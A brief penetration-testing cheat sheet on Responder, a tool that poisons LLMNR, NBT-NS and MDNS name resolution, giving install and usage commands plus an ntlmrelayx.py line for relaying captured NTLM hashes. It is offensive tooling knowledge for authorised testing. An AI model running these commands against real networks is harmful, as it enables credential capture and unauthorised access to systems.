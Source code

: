 # Responder

Responder is an LLMNR, NBT-NS and MDNS poisoner. Easy footholds on nearly every internal pentest.

## Installation 

Install Responder using git: 

```git clone https://github.com/lgandx/Responder```

## Usage

Basic Usage \
```./Responder.py -I [INTERFACE] -rdwP```

Relay hashes obtained \
```./Responder.py -I [INTERFACE] -rdw``` \
```python ntlmrelayx.py -tf targets.txt```

## References
* [Laurent Gaiffé Blog](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)
* [Practical guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
